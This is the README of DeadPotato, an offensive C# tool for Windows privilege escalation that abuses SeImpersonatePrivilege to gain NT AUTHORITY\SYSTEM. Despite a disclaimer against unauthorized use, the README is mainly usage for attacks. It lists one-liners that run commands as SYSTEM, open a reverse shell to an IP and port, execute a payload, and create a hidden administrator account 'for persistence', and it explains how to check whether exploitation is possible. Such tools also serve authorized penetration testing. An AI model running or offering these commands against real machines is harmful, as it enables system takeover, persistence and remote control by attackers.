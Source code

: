 ![image](https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa)

<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

<h4 align="center"><i>❗Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any unintentional harm caused to systems. Use with caution. ❗</i></h3>

```
C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version b1.0 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
```

## ❔Quick Start - How To Use
The `SeImpersonatePrivilege` right is enabled in your context? With **DeadPotato**, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, or `-newadmin usr:pass` for creating a new local Administrator user for persistence.

![cmd_GQJhLcT9IH](https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6)

#### Verify SeImpersonatePrivilege rights
In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.
If there privilege is disabled, exploitation is not possible in the current context.
```
C:\Users\lypd0> whoami /priv

<...SNIP...>
SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
<...SNIP...>
```


## 🐚 Getting an Elevated Reverse Shell
![cmd_XQASCL7Lz6](https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c)

### 🏅 Credits
This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.
If you like this project, make sure to also go show support to [the original project](https://github.com/BeichenDream/GodPotato)

### License
This project is licensed under the [MIT License](https://choosealicense.com/licenses/apache-2.0/). Please review the LICENSE file for more details.
